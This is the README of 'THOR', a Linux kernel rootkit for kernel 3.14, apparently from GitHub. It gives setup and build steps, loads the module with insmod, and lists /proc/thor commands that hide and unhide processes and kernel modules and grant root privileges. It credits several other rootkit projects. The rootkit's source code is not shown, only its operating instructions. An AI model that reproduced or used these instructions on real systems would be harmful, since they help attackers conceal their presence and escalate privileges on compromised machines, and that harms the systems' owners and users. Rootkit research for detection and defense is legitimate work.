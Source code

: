 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor (hides process PID)
       echo up PID    > /proc/thor (unhides process PID)
       echo upa       > /proc/thor (unhide all PIDs)
       echo hm MODULE > /proc/thor (hide module)
       echo um MODULE > /proc/thor (unhide module)
       echo uma       > /proc/thor (unhide all modules)
       echo root      > /proc/thor (gain root privileges)

## Authors

- Franz-Josef Haider
- Alex Hirsch

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [XieRan](https://github.com/nareix/tls-example)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)

